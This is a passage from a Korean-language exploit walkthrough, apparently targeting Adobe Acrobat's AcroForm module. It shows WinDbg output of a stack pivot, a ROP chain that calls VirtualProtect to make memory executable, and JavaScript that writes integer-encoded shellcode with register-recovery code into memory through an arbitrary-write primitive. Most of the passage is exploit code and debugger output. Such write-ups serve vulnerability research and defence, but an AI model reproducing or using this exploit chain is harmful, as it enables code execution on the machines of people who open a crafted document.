 가젯이 실행되면 eax(`arrBufPtr + 0x100`)값을 esp에 쓰면서 stack pivot이 이루어지고 `ret`하게 되는데 이때의 esp인 0x20000158에는 아래의 또 다른 stack pivot 가젯의 주소가 저장되어 있어 해당 주소가 실행됩니다.

```
eax=20000158 ebx=00000001 ecx=10c7d037 edx=00005000 esi=63eeaa60 edi=63a89990
eip=6380e646 esp=2000015c ebp=0457c19c iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200203
AcroForm+0x1e646:
6380e646 5c              pop     esp
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d037 edx=00005000 esi=63eeaa60 edi=63a89990
eip=6380e647 esp=20000358 ebp=0457c19c iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200203
AcroForm+0x1e647:
6380e647 c3              ret
0:000> dd esp
20000358  757d0760 20000458 20000458 00001000
20000368  00000040 20000598 00000000 00000000
```

최종적으로 esp는 0x20000358로 바뀌게 되고 한번 더 `ret`하면서 `KERNEL32!VirtualProtectStub` 함수의 주소로 eip가 변경되고 pivot된 스택에 구성된 인자들에 의해 `VirtualProtect(0x20000458, 0x1000, PAGE_EXECUTE_READWRITE, 0x20000598)`를 호출하는 것과 같은 효과가 발생합니다.

## 6. Insert Shellcode

삽입된 ROP 페이로드에 의해 호출된 `VirtualProtect`는 실행 권한이 부여된 0x20000458로 리턴하고 이 주소에는 아래의 코드에 의해 shellcode가 삽입되어 있습니다.

```jsx
var shellcode = [
    // recovery prefix       (store reg context)
    // 0x909090CC,
    0x89e083e8, 0x18535256, 0x57505590,

    // shellcode
    835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
    1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
    469892611, 1018101719, 2425393296,

    // recovery suffix
    // 0x909090CC,
    /*restore regs*/ 0x58585d58, /*restore vtable*/ 0x8b48608b, 0x50648911, /*pop regs*/ 0x5f5e5a5b,
    /*restore ebp,esp: 0x89ea83ea, 0x3089d490, */ 0x89ec83ec, 0x30909090, /* esi = fn*/ 0x8b706890,
    /*arrbuf restore*/ 0x53bb4000, 0x00208b50, 0x6cc7430c, 0xe8ff0000, 0xc74220e8, 0xff000090,
    0x8953108b, 0x50708913, 0x8b507489, 0x530431d2, 0x5b909090, /*jmp esi*/ 0xffe69090
    /*jmp defaultVal 0xff606890*/
];

for (var i = 0; i < shellcode.length; i++) AAW(arrBufPtr + 0x400 + i * 4, re(shellcode[i]));
```
